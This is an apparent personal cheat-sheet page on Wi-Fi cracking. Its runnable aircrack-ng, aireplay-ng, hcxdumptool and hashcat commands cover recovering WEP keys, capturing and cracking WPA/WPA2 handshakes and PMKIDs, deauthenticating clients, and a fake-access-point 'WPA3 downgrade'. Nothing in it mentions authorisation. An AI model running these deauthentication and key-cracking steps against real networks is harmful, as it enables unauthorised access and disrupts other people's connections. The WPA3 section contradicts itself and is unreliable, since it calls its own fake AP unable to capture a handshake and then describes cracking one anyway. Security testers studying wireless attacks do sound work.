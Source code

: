 ```yaml
---
title: Wireless
layout: page
parent: network
---
```


# Wireless

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you
need to know the name of your wifi interface. You can find it by running the
following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that
corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1`
or something similar. Once you have identified your wifi interface, you can set
it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
interface="wlo1"
sudo airmon-ng start ${interface}  # start monitor mode
interface="${interface}mon"
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng ${interface}
```

or

```bash
sudo airodump-ng ${interface} --essid "MyNetworkName"
```

This will display a list of all the wifi networks in range, and note the BSSID
(MAC address) and channel of the target network.

```bash
channel="6" # 11, ...
bssid="AA:BB:CC:DD:EE:FF"
```

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel $channel --bssid $bssid --write outputdump $interface
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets
into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a $bssid $interface
```

This will authenticate you to the network and allow you to capture more packets,
then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b $bssid $interface
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000),
you can crack the WEP key using the following command:

```bash
aircrack-ng outputdump
```

This will attempt to crack the WEP key using the captured packets. If
successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to
capture the handshake when a client connects to the network, so start the
airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel $channel --bssid $bssid --write out $interface
```

If a client is connected to the network, you will see the handshake in the
terminal. If not, you can use the following command to deauthenticate a client
and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a $bssid $interface
# or
sudo aireplay-ng --deauth 10 -a $bssid -c $station $interface
```

Once you have captured the handshake, you can crack the WPA/WPA2 key using a
wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If
successful, it will display the WPA/WPA2 key in the terminal. Note that if the
ESSID is hidden, you will need to use the `-e` option to specify the ESSID when
cracking the key.

### Option 2 (harder but better)

A way faster and more successful alternative to the previous method is to use
`hcxdumptool` to capture the handshake or the PMKID and then crack it with
`hashcat`. This makes it more likely to succeed than the previous method since
we could only use the handshake with it, and this method allows us to use
`hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 $bssid or wlan addr3 ffffffffffff" -ddd > output.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is
mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
band="a" # or b,c
sudo hcxdumptool -i $interface -c ${channel}$band --bpf=output.bpf -w output.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for
either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the
'P' to have a + under them to know that you have captured one of them, allowing
you to try to crack the hash.

You can use the following command to deauthenticate a client and force it to
reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a $bssid $interface # to broadcast
# or
sudo aireplay-ng --deauth 10 -a $bssid -c $station $interface
```

Now, we need to convert the pcapng file to the specific hash that `hashcat` can
use. To do this, we can use the following command:

```bash
hcxpcapngtool -o output.hc22000 output.pcapng
```

Finally, we can use [`hashcat`](https://n4c.hadi.diy/cracking/hash.html#hashcat)
to crack the hash. You will need to import the `cracking` module. You can use
the following command to try to crack the hash using a wordlist and a rule file,
but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o output -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule output.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to
capture the handshake. To do this, we need to change our approach on the WPA2 AP
part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel $channel --bssid $bssid $interface
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following
command:

```bash
sudo aireplay-ng --deauth 10 -a $bssid $interface
# or
sudo aireplay-ng --deauth 10 -a $bssid -c $station $interface
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e $ssid -c $channel -P -C 30 -Z 4 $interface
```

This will create a fake AP with the specified SSID and channel, however, this is
not a true WPA2 AP, which does not allow us to capture the handshake. To do
this, we need to use a different method. This is the only thing missing to make
WPA3 cracking work.

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel $channel --bssid $fake_bssid --write out $interface
```

Once you have captured the handshake, you can crack the WPA3 key using a
wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w $wordlist out
```

This will attempt to crack the WPA3 key using the wordlist provided. If
successful, it will display the WPA3 key in the terminal.

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its
normal mode using the following command:

```bash
sudo airmon-ng stop $interface
```

This will stop the monitor mode and reset the interface to its normal mode. You
can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks
again. If you are using a different network manager, rebooting your system
should also work.
